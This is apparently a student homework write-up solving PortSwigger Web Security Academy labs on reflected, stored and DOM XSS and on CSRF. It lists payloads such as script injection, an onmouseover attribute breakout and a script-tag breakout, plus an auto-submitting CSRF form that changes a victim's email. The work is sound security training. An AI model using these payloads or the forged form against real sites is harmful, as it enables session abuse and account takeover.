# Homework 12. Client Side Attacks

## XSS

### Task 1

The [lab](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) is solved by passing malicious payload as search parameter:

```js
    <script>alert('hacked')</script>
```






### Task 2

The [lab](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) is solved by passing malicious payload to comment:







### Task 3

The [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink) is solved by passing malicious payload payload as search parameter:



The payload as added as DOM element:



And the script is executed:



And the lab is solved:


### Task 4

In this [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded) the search parameter is set to `value` attribute of input element:



So we can pass malicious payload and modify `input` attributes. The payload:

```html
"onmouseover="alert(1)
```



Hovering mouse over input field triggers alert:



The lab is solved:



### Task 5

In this lab [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped) the input is stored in the variable `searchTerms`:



The malicious payload should close previous script and create a new one:

```html
</script><script>alert(1)</script>
```



It triggers the alert:



The lab is solved:



## CSRF

### Task 6

This [lab](https://portswigger.net/web-security/csrf/lab-no-defenses) is solved by providing html form to exploit server. Once the form is delivered to victim it is automatically submitted by script and email should be changed:

```html
<html>
 <body>
  <form method="POST" action="https://0a3400a603c14083817c753d00c200a1.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="victim@normal-user.net"/>
    <input type="submit" value="Submit">
  </form>
  </body>
  <script>
    document.forms[0].submit();
  </script>
<html>
```


